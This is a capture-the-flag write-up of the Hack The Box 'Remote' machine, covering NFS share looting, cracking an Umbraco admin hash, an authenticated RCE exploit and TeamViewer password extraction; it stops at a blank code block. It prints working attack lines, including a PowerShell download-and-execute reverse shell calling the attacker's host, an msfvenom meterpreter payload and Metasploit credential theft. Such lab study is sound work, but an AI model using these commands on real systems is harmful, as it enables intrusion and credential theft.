




---
tags:
  - umbraco
  - teamviewer
  - nfs
group: Windows
---


- Machine : https://app.hackthebox.com/machines/Remote
- Reference : https://0xdf.gitlab.io/2020/09/05/htb-remote.html
- Solved : 2024.12.06. (Fri) (Takes 1days)

## Summary
---

1. **Initial Enumeration**
	- **Port Scanning**:
	    - Discovered open ports: FTP (21), HTTP (80), SMB (139/445), NFS (2049), WinRM (5985).
	    - FTP allowed **anonymous login** (no write access), and HTTP hosted an Umbraco CMS.
	- **NFS Access**:
	    - Mounted `/site_backups` and extracted the `Umbraco.sdf` file containing a SHA1 hash.
	    
2. **Web Application Exploitation**
	- **Umbraco Exploit**:
	    - Cracked the SHA1 hash (`baconandcheese`) for the `admin@htb.local` account.
	    - Logged into the Umbraco admin panel and used an authenticated RCE exploit to get a shell as `iis apppool\defaultapppool`.

3. **Privilege Escalation**
	- **TeamViewer Exploit**:
	    - Found TeamViewer 7 running via `winPEAS`.
	    - Used Metasploit to extract the unattended password (`!R3m0te!`).
	- **WinRM Access**:
	    - Successfully authenticated as `Administrator` using the extracted credentials.
    
 4. **Administrative Access**
	- Used `evil-winrm` to gain a shell as `Administrator` and achieve full control.

### Key Techniques:

- Exploited NFS to extract sensitive files.
- Cracked credentials for Umbraco admin and exploited authenticated RCE.
- Extracted passwords via a TeamViewer vulnerability.
- Privilege escalation through WinRM with administrator credentials.

---

# Reconnaissance

### Port Scanning

```bash
┌──(kali㉿kali)-[~/htb]
└─$ ./port-scan.sh 10.10.10.180
Performing quick port scan on 10.10.10.180...
Found open ports: 21,80,111,135,139,445,2049,5985,47001,49664,49665,49666,49667,49678,49679,49680
Performing detailed scan on 10.10.10.180...
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-06 03:07 EST
Nmap scan report for 10.10.10.180
Host is up (0.12s latency).

PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp    open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Home - Acme Widgets
111/tcp   open  rpcbind?
| rpcinfo: 
|   program version    port/proto  service
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100005  1,2,3       2049/tcp   mountd
|   100005  1,2,3       2049/tcp6  mountd
|   100005  1,2,3       2049/udp   mountd
|_  100005  1,2,3       2049/udp6  mountd
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
2049/tcp  open  mountd        1-3 (RPC #100005)
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49678/tcp open  msrpc         Microsoft Windows RPC
49679/tcp open  msrpc         Microsoft Windows RPC
49680/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-12-06T08:08:46
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 139.61 seconds
```

- ftp(21) service allows anonymous login.
- http(80) is open, but looks not normal.
- smb(139,445) exists.
- winrm(5985) is open which might be useful for spawning a shell.
- nfs(2049) is also open.

### ftp(21)

Since it's allowing anonymous login, let's try this first.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ ftp anonymous@10.10.10.180
Connected to 10.10.10.180.
220 Microsoft FTP Service
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
229 Entering Extended Passive Mode (|||49687|)
125 Data connection already open; Transfer starting.
226 Transfer complete.
ftp> put test.txt
local: test.txt remote: test.txt
229 Entering Extended Passive Mode (|||49690|)
550 Access is denied. 
```

Even though it allows anonymous login, there's nothing to see.
Also, it doesn't allow `PUT` method...

### http(80)

Let's visit its main page.


It looks like it's a shopping mall site.
Let me click "CHECK OUR PRODUCTS".


As expected, it's a shopping page. It provides multiple items in sale.



But when I click an item, "BUY" button is disabled.
Let's move to `PEOPLE` tab.


Here I can find potential user's names.

```
Jan Skovgaard
Matt Brailsford
Lee Kelleher
Jeavon Leopold
Jeroen Breuer
```

Now let's move onto `ABOUT US` page.



On this page, it reveals some useful information regarding the web development.
There might be `/login`, `/register`,`/profile`, /`forgetpassword` or similar looking pages.
Now, let's take a look at `CONTACT` page.



I expected some submission form, but it's a bit different.
It looks like the button is redirecting us to another sub page.
Let's click it.. Before that, there's `INTRANET` page left which sounds interesting.. but nothing.


The redirected page is somewhat different in looking.


It's a login form, and the title is `Umbraco`.
Let's search what it is.

It has vulnerability, but still requires valid credential that we don't have now.
Let's do directory fuzzing with `gobuster`.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ gobuster dir -u http://10.10.10.180 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.180
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/contact              (Status: 200) [Size: 7880]
/home                 (Status: 200) [Size: 6703]
/products             (Status: 200) [Size: 5338]
/blog                 (Status: 200) [Size: 5011]
/people               (Status: 200) [Size: 6749]
/product              (Status: 500) [Size: 3420]
/Home                 (Status: 200) [Size: 6703]
/Products             (Status: 200) [Size: 5338]
/Contact              (Status: 200) [Size: 7890]
/install              (Status: 302) [Size: 126] [--> /umbraco/]
/Blog                 (Status: 200) [Size: 5011]
/about-us             (Status: 200) [Size: 5451]
/People               (Status: 200) [Size: 6749]
/Product              (Status: 500) [Size: 3420]
/INSTALL              (Status: 302) [Size: 126] [--> /umbraco/]
/master               (Status: 500) [Size: 3420]
/1112                 (Status: 200) [Size: 4051]
/intranet             (Status: 200) [Size: 3313]
/1114                 (Status: 200) [Size: 4236]
/1117                 (Status: 200) [Size: 2750]
/person               (Status: 200) [Size: 2741]
/1115                 (Status: 200) [Size: 4132]
/1113                 (Status: 200) [Size: 4271]
/1119                 (Status: 200) [Size: 2749]
/1107                 (Status: 200) [Size: 5328]
/1125                 (Status: 200) [Size: 5001]
/1109                 (Status: 200) [Size: 4039]
/1106                 (Status: 200) [Size: 6693]
/1127                 (Status: 200) [Size: 5813]
/1110                 (Status: 200) [Size: 4176]
/1116                 (Status: 200) [Size: 6739]
/1120                 (Status: 200) [Size: 2751]
/1122                 (Status: 200) [Size: 5441]
/1111                 (Status: 200) [Size: 4196]
/1129                 (Status: 200) [Size: 7880]
/1123                 (Status: 200) [Size: 3632]
/1124                 (Status: 200) [Size: 4723]
/1121                 (Status: 200) [Size: 2750]
/1128                 (Status: 200) [Size: 6879]
/1148                 (Status: 200) [Size: 3313]
/*checkout*           (Status: 400) [Size: 3420]
/1126                 (Status: 200) [Size: 4869]
/1118                 (Status: 200) [Size: 2752]
/1108                 (Status: 200) [Size: 4834]
/Intranet             (Status: 200) [Size: 3313]
/HOME                 (Status: 200) [Size: 6703]
/Install              (Status: 302) [Size: 126] [--> /umbraco/]
/About-Us             (Status: 200) [Size: 5441]
```

Most pages found are all we visited ahead.

### smb(139,445)

```bash
┌──(kali㉿kali)-[~/htb]
└─$ smbclient -L 10.10.10.180 
Password for [WORKGROUP\kali]:
session setup failed: NT_STATUS_ACCESS_DENIED

┌──(kali㉿kali)-[~/htb]
└─$ enum4linux -a 10.10.10.180
Starting enum4linux v0.9.1 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Fri Dec  6 04:16:07 2024

 ============( Target Information )========          
Target ........... 10.10.10.180                                            
RID Range ........ 500-550,1000-1050
Username ......... ''
Password ......... ''
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none

 =========( Enumerating Workgroup/Domain on 10.10.10.180 )=========                                            
[E] Can't find workgroup/domain                                          

 =========( Nbtstat Information for 10.10.10.180 )=========                                          
Looking up status of 10.10.10.180                                          
No reply from 10.10.10.180

 ===========( Session Check on 10.10.10.180 )============                                     
[E] Server doesn't allow session using username '', password ''.  Aborting remainder of tests.                                                        
```

Based on scanning result there's nothing I can do without valid credential.

### nfs(2049)

Let's check if there's any mount.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ showmount -e 10.10.10.180
Export list for 10.10.10.180:
/site_backups (everyone)
```

Bingo! There's a `/site_backups` which is likely being useful!
Let's mount and see what's in it.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ sudo mkdir /mnt/nfs      
[sudo] password for kali: 


┌──(kali㉿kali)-[~/htb]
└─$ sudo mount -t nfs 10.10.10.180:/site_backups /mnt/nfs


┌──(kali㉿kali)-[/mnt/nfs]
└─$ ls
App_Browsers  Config       Umbraco         Web.config     css
App_Data      Global.asax  Umbraco_Client  aspnet_client  default.aspx
App_Plugins   Media        Views           bin            scripts
```

Yes, I think it contains web resource files.

# Login on `Umbraco` as `administrator`

It has a lot of files in it.. Among them, I found `Umbraco.sdf`.

```perl
┌──(kali㉿kali)-[/mnt/nfs/App_Data]
└─$ strings Umbraco.sdf 
Administratoradmindefaulten-US
Administratoradmindefaulten-USb22924d5-57de-468e-9df4-0961cf6aa30d
Administratoradminb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}en-USf8512f97-cab1-4a4b-a49f-0a2054c47a1d
adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-USfeb1a998-d3bf-406a-b30b-e269d7abdf50
adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-US82756c26-4321-4d27-b429-1b5c7c4f882f
smithsmith@htb.localjxDUCcruzN8rSRlqnfmvqw==AIKYyl6Fyy29KA3htB/ERiyJUAdpTtFeTpnIk9CiHts={"hashAlgorithm":"HMACSHA256"}smith@htb.localen-US7e39df83-5e64-4b93-9702-ae257a9b9749-a054-27463ae58b8e
ssmithsmith@htb.localjxDUCcruzN8rSRlqnfmvqw==AIKYyl6Fyy29KA3htB/ERiyJUAdpTtFeTpnIk9CiHts={"hashAlgorithm":"HMACSHA256"}smith@htb.localen-US7e39df83-5e64-4b93-9702-ae257a9b9749
ssmithssmith@htb.local8+xXICbPe7m5NQ22HfcGlg==RF9OLinww9rd2PmaKUpLteR6vesD2MtFaBKe1zL5SXA={"hashAlgorithm":"HMACSHA256"}ssmith@htb.localen-US3628acfb-a62c-4ab0-93f7-5ee9724c8d32
```

I can find SHA1 hash at the beginning : `b8be16afba8c314ad33d812f22a04991b90e2aaa`
Let's crack it.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ hashcat -m 100 -a 0 administrator.sha1 /usr/share/wordlists/rockyou.txt.gz
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, LLVM 17.0.6, SLEEF, POCL_DEBUG) - Platform #1 [The pocl project]
====================================================================================================================================
* Device #1: cpu--0x000, 1437/2939 MB (512 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Early-Skip
* Not-Salted
* Not-Iterated
* Single-Hash
* Single-Salt
* Raw-Hash

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.                                                                          
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 0 MB

Dictionary cache building /usr/share/wordlists/rockyou.txt.gz: 33553434 bytDictionary cache built:
* Filename..: /usr/share/wordlists/rockyou.txt.gz
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 1 sec

b8be16afba8c314ad33d812f22a04991b90e2aaa:baconandcheese   
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 100 (SHA1)
Hash.Target......: b8be16afba8c314ad33d812f22a04991b90e2aaa
Time.Started.....: Fri Dec  6 04:56:18 2024 (2 secs)
Time.Estimated...: Fri Dec  6 04:56:20 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt.gz)
<SNIP>
```

I cracked the hash. Valid credential for Umbraco is `administrator` : `baconandcheese`
Let's go back to http(80) Umbraco login page, and test this credential.



I need to use `admin@htb.local` as username here.
This credential is working.

# Shell as `iis apppool\defaultapppool`

I think I can use Umbraco exploit I found previously.
Here's the link of exploit:
https://github.com/noraj/Umbraco-RCE

```bash
┌──(kali㉿kali)-[~/htb/Umbraco-RCE]
└─$ python exploit.py -u admin@htb.local -p baconandcheese -i 'http://10.10.10.180' -h
usage: exploit.py [-h] -u USER -p PASS -i URL -c CMD [-a ARGS]

Umbraco authenticated RCE

options:
  -h, --help                 show this help message and exit
  -u USER, --user USER       username / email
  -p PASS, --password PASS   password
  -i URL, --host URL         root URL
  -c CMD, --command CMD      command
  -a ARGS, --arguments ARGS  arguments


┌──(kali㉿kali)-[~/htb/Umbraco-RCE]
└─$ python exploit.py -u admin@htb.local -p baconandcheese -i 'http://10.10.10.180' -c whoami  
iis apppool\defaultapppool


┌──(kali㉿kali)-[~/htb/Umbraco-RCE]
└─$ python exploit.py -u admin@htb.local -p baconandcheese -i 'http://10.10.10.180' -c ipconfig

Windows IP Configuration


Ethernet adapter Ethernet0 2:

   Connection-specific DNS Suffix  . : htb
   IPv6 Address. . . . . . . . . . . : dead:beef::233
   IPv6 Address. . . . . . . . . . . : dead:beef::d136:9bf1:2389:97aa
   Link-local IPv6 Address . . . . . : fe80::d136:9bf1:2389:97aa%12
   IPv4 Address. . . . . . . . . . . : 10.10.10.180
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : fe80::250:56ff:feb9:f488%12
                                       10.10.10.2


┌──(kali㉿kali)-[~/htb/Umbraco-RCE]
└─$ python exploit.py -u admin@htb.local -p baconandcheese -i 'http://10.10.10.180' -c 'systeminfo'

Host Name:                 REMOTE
OS Name:                   Microsoft Windows Server 2019 Standard
OS Version:                10.0.17763 N/A Build 17763
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                00429-00521-62775-AA801
Original Install Date:     2/19/2020, 3:03:29 PM
System Boot Time:          12/6/2024, 2:59:38 AM
System Manufacturer:       VMware, Inc.
System Model:              VMware7,1
System Type:               x64-based PC
Processor(s):              2 Processor(s) Installed.
                           [01]: AMD64 Family 25 Model 1 Stepping 1 AuthenticAMD ~2595 Mhz
                           [02]: AMD64 Family 25 Model 1 Stepping 1 AuthenticAMD ~2595 Mhz
BIOS Version:              VMware, Inc. VMW71.00V.24224532.B64.2408191458, 8/19/2024
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume2
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC-05:00) Eastern Time (US & Canada)
Total Physical Memory:     2,047 MB
Available Physical Memory: 872 MB
Virtual Memory: Max Size:  2,431 MB
Virtual Memory: Available: 1,297 MB
Virtual Memory: In Use:    1,134 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    WORKGROUP
Logon Server:              N/A
Hotfix(s):                 4 Hotfix(s) Installed.
                           [01]: KB4534119
                           [02]: KB4516115
                           [03]: KB4523204
                           [04]: KB4464455
Network Card(s):           1 NIC(s) Installed.
                           [01]: vmxnet3 Ethernet Adapter
                                 Connection Name: Ethernet0 2
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.180
                                 [02]: fe80::d136:9bf1:2389:97aa
                                 [03]: dead:beef::d136:9bf1:2389:97aa
                                 [04]: d
```

Let's use `Invoke-PowerShellTcp.ps1` this time.
On the original code, let's add the following in its last line:

```powershell
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.14 -Port 9000
```

Open a web server to upload file

```bash
┌──(kali㉿kali)-[~/htb/Umbraco-RCE]
└─$ python -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.10.180 - - [06/Dec/2024 07:27:09] "GET /rshell.ps1 HTTP/1.1" 200 -
```

Run the exploit with the payload:

```ruby
┌──(kali㉿kali)-[~/htb/Umbraco-RCE]
└─$ python exploit.py -u admin@htb.local -p baconandcheese -i 'http://10.10.10.180' -c "powershell.exe" -a "IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.14:8000/rshell.ps1')"
```

Listener

```bash
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 9000
listening on [any] 9000 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.180] 49747
Windows PowerShell running as user REMOTE$ on REMOTE
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\windows\system32\inetsrv>whoami
iis apppool\defaultapppool
```


# Shell as `administrator`

### Enumeration

Let's run `winPEASx64.exe` first, to see what's interesting.

```powershell
PS C:\Users\Public\Desktop> .\winPEASx64.exe
 [!] If you want to run the file analysis checks (search sensitive information in files), you need to specify the 'fileanalysis' or 'all' argument. Note that this search might take several minutes. For help, run winpeass.exe --help

<SNIP>

  [?] Windows vulns search powered by Watson(https://github.com/rasta-mouse/Watson)                                                                   
 [*] OS Version: 1809 (17763)
 [*] Enumerating installed KBs...
 [!] CVE-2019-0836 : VULNERABLE
  [>] https://exploit-db.com/exploits/46718
  [>] https://decoder.cloud/2019/04/29/combinig-luafv-postluafvpostreadwrite-race-condition-pe-with-diaghub-collector-exploit-from-standard-user-to-system/                                                                      

 [!] CVE-2019-0841 : VULNERABLE
  [>] https://github.com/rogue-kdc/CVE-2019-0841
  [>] https://rastamouse.me/tags/cve-2019-0841/

 [!] CVE-2019-1064 : VULNERABLE
  [>] https://www.rythmstick.net/posts/cve-2019-1064/

 [!] CVE-2019-1130 : VULNERABLE
  [>] https://github.com/S3cur3Th1sSh1t/SharpByeBear

 [!] CVE-2019-1253 : VULNERABLE
  [>] https://github.com/padovah4ck/CVE-2019-1253
  [>] https://github.com/sgabe/CVE-2019-1253

 [!] CVE-2019-1315 : VULNERABLE
  [>] https://offsec.almond.consulting/windows-error-reporting-arbitrary-file-move-eop.html                                                           

 [!] CVE-2019-1385 : VULNERABLE
  [>] https://www.youtube.com/watch?v=K6gHnr-VkAg

 [!] CVE-2019-1388 : VULNERABLE
  [>] https://github.com/jas502n/CVE-2019-1388

 [!] CVE-2019-1405 : VULNERABLE
  [>] https://www.nccgroup.trust/uk/about-us/newsroom-and-events/blogs/2019/november/cve-2019-1405-and-cve-2019-1322-elevation-to-system-via-the-upnp-device-host-service-and-the-update-orchestrator-service/                   
  [>] https://github.com/apt69/COMahawk

 [!] CVE-2020-0668 : VULNERABLE
  [>] https://github.com/itm4n/SysTracingPoc

 [!] CVE-2020-0683 : VULNERABLE
  [>] https://github.com/padovah4ck/CVE-2020-0683
  [>] https://raw.githubusercontent.com/S3cur3Th1sSh1t/Creds/master/PowershellScripts/cve-2020-0683.ps1                                               

 [!] CVE-2020-1013 : VULNERABLE
  [>] https://www.gosecure.net/blog/2020/09/08/wsus-attacks-part-2-cve-2020-1013-a-windows-10-local-privilege-escalation-1-day/                       

 [*] Finished. Found 12 potential vulnerabilities.


???????????? AV Information
  [X] Exception: Invalid namespace 
    No AV was detected!!
    Not Found


???????????? Modifiable Services
? Check if you can modify any service https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#services                       
    LOOKS LIKE YOU CAN MODIFY OR START/STOP SOME SERVICE/s:
    RmSvc: GenericExecute (Start/Stop)
    UsoSvc: AllAccess, Start


???????????? Interesting Services -non Microsoft-
? Check if you can overwrite some service binary or perform a DLL hijacking, also check for unquoted paths https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#services                             
  [X] Exception: System.Runtime.InteropServices.COMException (0x80070006): The handle is invalid. (Exception from HRESULT: 0x80070006 (E_HANDLE))     
   at System.Runtime.InteropServices.Marshal.ThrowExceptionForHRInternal(Int32 errorCode, IntPtr errorInfo)                                           
   at System.Runtime.InteropServices.Marshal.FreeHGlobal(IntPtr hglobal)   
   at winPEAS.Native.Classes.UNICODE_STRING.Dispose(Boolean disposing)     
    ssh-agent(OpenSSH Authentication Agent)[C:\Windows\System32\OpenSSH\ssh-agent.exe] - Disabled - Stopped                                           
    Agent to hold private keys used for public key authentication.
   =================================================================================================                                                  

    TeamViewer7(TeamViewer GmbH - TeamViewer 7)["C:\Program Files (x86)\TeamViewer\Version7\TeamViewer_Service.exe"] - Auto - Running                 
    TeamViewer Remote Software
   =================================================================================================                                                  

    VGAuthService(VMware, Inc. - VMware Alias Manager and Ticket Service)["C:\Program Files\VMware\VMware Tools\VMware VGAuth\VGAuthService.exe"] - Auto - Running
    Alias Manager and Ticket Service
   =================================================================================================                                                  

    vm3dservice(VMware, Inc. - VMware SVGA Helper Service)[C:\Windows\system32\vm3dservice.exe] - Auto - Running                                      
    Helps VMware SVGA driver by collecting and conveying user mode information                                                                        
   =================================================================================================                                                  

    VMTools(VMware, Inc. - VMware Tools)["C:\Program Files\VMware\VMware Tools\vmtoolsd.exe"] - Auto - Running                                        
    Provides support for synchronizing objects between the host and guest operating systems.                                                          
   =================================================================================================   
```

Based on this enum, I could find out that `TeamViewer 7` service is running behind which is not normal.

I googled if there's any vulnerability, and found that it has a password leaking vulnerability as follows:
https://whynotsecurity.com/blog/teamviewer/

To run this exploit, I need to open a new shell with metasploit.

Let's create a payload and open web server

```bash
┌──(kali㉿kali)-[~/htb]
└─$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.14 LPORT=9001 -f exe -o rshell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: rshell.exe


┌──(kali㉿kali)-[~/htb]
└─$ python -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.10.180 - - [06/Dec/2024 07:48:10] "GET /rshell.exe HTTP/1.1" 200 -
```

Then, let's open metasploit handler in kali

```bash
┌──(kali㉿kali)-[~/htb]
└─$ msfconsole
Metasploit tip: Enable HTTP request and response logging with set HttpTrace 
true

msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > options

Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh,
                                         thread, process, none)
   LHOST                      yes       The listen address (an interface m
                                        ay be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


View the full module info with the info, or info -d command.

msf6 exploit(multi/handler) > set LHOST 10.10.14.14
LHOST => 10.10.14.14
msf6 exploit(multi/handler) > set LPORT 9001
LPORT => 9001
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.14:9001 
[*] Sending stage (201798 bytes) to 10.10.10.180
[*] Meterpreter session 1 opened (10.10.14.14:9001 -> 10.10.10.180:49760) at 2024-12-06 07:50:25 -0500

meterpreter > 
```

Now let's run exploit to extract credential.

```bash
msf6 exploit(multi/handler) > search Teamviewer

Matching Modules
================

   #  Name                                                  Disclosure Date  Rank    Check  Description
   -  ----                                                  ---------------  ----    -----  -----------
   0  auxiliary/server/teamviewer_uri_smb_redirect          .                normal  No     TeamViewer Unquoted URI Handler SMB Redirect
   1  post/windows/gather/credentials/teamviewer_passwords  .                normal  No     Windows Gather TeamViewer Passwords


Interact with a module by name or index. For example info 1, use 1 or use post/windows/gather/credentials/teamviewer_passwords                          

msf6 exploit(multi/handler) > use 1
msf6 post(windows/gather/credentials/teamviewer_passwords) > options

Module options (post/windows/gather/credentials/teamviewer_passwords):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   SESSION                        yes       The session to run this module
                                             on
   WINDOW_TITLE  TeamViewer       no        Specify a title for getting th
                                            e window handle, e.g. TeamView
                                            er


View the full module info with the info, or info -d command.

msf6 post(windows/gather/credentials/teamviewer_passwords) > sessions

Active sessions
===============

  Id  Name  Type                 Information          Connection
  --  ----  ----                 -----------          ----------
  1         meterpreter x64/win  IIS APPPOOL\Default  10.10.14.14:9001 ->
            dows                 AppPool @ REMOTE     10.10.10.180:49760 (
                                                      10.10.10.180)

msf6 post(windows/gather/credentials/teamviewer_passwords) > set SESSION 1
SESSION => 1
msf6 post(windows/gather/credentials/teamviewer_passwords) > run

[*] Finding TeamViewer Passwords on REMOTE
[+] Found Unattended Password: !R3m0te!
[+] Passwords stored in: /home/kali/.msf4/loot/20241206075153_default_10.10.10.180_host.teamviewer__018160.txt
[*] <---------------- | Using Window Technique | ---------------->
[*] TeamViewer's language setting options are ''
[*] TeamViewer's version is ''
[-] Unable to find TeamViewer's process
[*] Post module execution completed
```

Let me double check the extracted password.

```bash
